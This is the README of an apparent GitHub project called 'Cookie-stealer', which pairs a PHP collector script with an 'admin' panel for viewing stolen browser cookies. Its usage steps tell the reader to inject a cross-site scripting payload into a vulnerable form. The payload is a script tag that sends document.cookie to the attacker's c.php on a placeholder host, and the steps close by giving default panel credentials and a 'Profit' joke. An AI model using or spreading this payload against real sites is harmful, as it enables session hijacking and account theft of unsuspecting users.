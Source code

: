 ![Cookie](https://user-images.githubusercontent.com/8536299/99194653-0f8b8b80-2781-11eb-9415-d4a6efc5920e.png)

# Cookie-stealer
Crappy cookie stealer with 'admin' panel made long time ago..

```admin.php``` to view your cookies, ```c.php``` to grab the cookies.
c.php will write the cookies into admin.php, be sure to have write access on your server.

### Usage
1. Drop ```admin.php``` and ```c.php``` in the same directory.
2. Go to your vulnerable formulary and send him a payload to your ```c.php?c=``` something like this:
 * `<script>document.write("<img src='http://xxxxx.fr/c.php?c="+document.cookie+"'></img>");</script>`
3. Navigate to admin.php, login with username: **root** password: **toor**
4. ???
5. Profit.
